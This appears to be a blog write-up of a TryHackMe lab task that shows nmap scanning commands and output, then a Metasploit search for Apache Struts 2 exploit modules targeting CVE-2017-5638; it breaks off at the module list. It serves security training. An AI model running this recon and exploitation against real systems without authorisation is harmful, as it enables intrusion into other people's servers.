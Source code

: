 
## Task 15 - Day 10 - Metasploit-a-ho-ho-ho

This task is about using `nmap` to get web service information and using `metasploit` to exploit `apache struts 2` vulnerability.


Use these links as references.
- [TryHackMe supporting material](https://blog.tryhackme.com/metasploit/){:target="_blank"}
- [NMAP Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}


Using `nmap`, perform basic recon and get listening ports.
{% capture code %}{% raw %}nmap -Pn -T4 -sS -F --reason --open <ip>{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained.
{% capture code %}{% raw %}Starting Nmap 7.60 ( https://nmap.org ) at 2021-01-23 12:58 GMT
Nmap scan report for <hostname> (<ip>)
Host is up, received arp-response (0.0011s latency).
Not shown: 97 closed ports
Reason: 97 resets
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 255
80/tcp  open  http    syn-ack ttl 254
111/tcp open  rpcbind syn-ack ttl 255
MAC Address: 02:EA:AF:A4:E6:7D (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.60 seconds{% endraw %}{% endcapture %} {% include code.html code=code%}

Use `nmap` service scan on port `80` to find version of web server.
{% capture code %}{% raw %}nmap -Pn -p80 -sV <ip>{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained.
{% capture code %}{% raw %}Starting Nmap 7.60 ( https://nmap.org ) at 2021-01-23 12:59 GMT
Nmap scan report for <hostname> (<ip>)
Host is up (0.00020s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 02:EA:AF:A4:E6:7D (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.93 seconds{% endraw %}{% endcapture %} {% include code.html code=code%}

Use `firefox` to check the url `http://<ip>`, and the resource `showcase.action` is available. This can be used to exploit `apache struts 2` using the [CVE-2017-5638](https://www.exploit-db.com/exploits/41570){:target="_blank"}.

Use `msfconsole` to exploit `apache struts 2` web application.
{% capture code %}{% raw %}msf5 > search struts2

Matching Modules

#  Name                                             Disclosure Date  Rank       Check  Description
-  ----                                             ---------------  ----       -----  -----------
0  exploit/multi/http/struts2_code_exec_showcase    2017-07-07       excellent  Yes    Apache Struts 2 Struts 1 Plugin Showcase OGNL CodeExecution
1  exploit/multi/http/struts2_content_type_ognl     2017-03-07       excellent  Yes    Apache Struts Jakarta Multipart Parser OGNL Injection
2  exploit/multi/http/struts2_namespace_ognl        2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
3  exploit/multi/http/struts2_rest_xstream          2017-09-05       excellent  Yes    Apache Struts 2 REST Plugin XStream RCE